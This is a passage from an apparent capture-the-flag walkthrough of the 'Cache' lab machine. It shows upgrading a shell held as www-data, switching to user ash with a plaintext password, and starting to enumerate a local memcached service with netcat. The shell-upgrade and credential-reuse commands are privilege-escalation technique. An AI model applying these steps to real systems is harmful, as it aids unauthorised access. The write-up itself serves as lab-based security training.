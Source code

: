 We successfully got a shell as `www-data`!

# Privesc

### Privesc to user

Now that we have a shell as `www-data`, let us upgrade the shell and then try to `su` with the credentials we found in the beginning.

```bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ain$ python3 -c 'import pty;pty.spawn("/bin/bash")'        
www-data@cache:/var/www/hms.htb/public_html/interface/main$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
root@darkness:~# nc -lvnp 443

www-data@cache:/var/www/hms.htb/public_html/interface/main$ export TERM=xterm
```

With the upgraded shell, we can now try to `su` to `ash`.

```bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: H@v3_fun
ash@cache:/var/www/hms.htb/public_html/interface/main$
```

We successfully switch user and can now read user.txt.

```bash
ash@cache:~$ cat user.txt
34472***************************
```

### Privesc to root

Now that we have a shell as `ash`, let us enumerate the system to find a privesc-path to root.

#### Enumeration as ash

Let us start by checking out running processes on the system.

```bash
ash@cache:~$ ps wwaux
memcache   994  0.0  0.0 425792  3920 ?        Ssl  00:25   0:11 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
```

Seems like memcache is running. Let us connect to it using netcat and see what we get.

#### Memcache enumeration

```bash
ash@cache:~$ nc 127.0.0.1 11211
version
VERSION 1.5.6 Ubuntu
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 12
STAT 1:cmd_set 4103
```
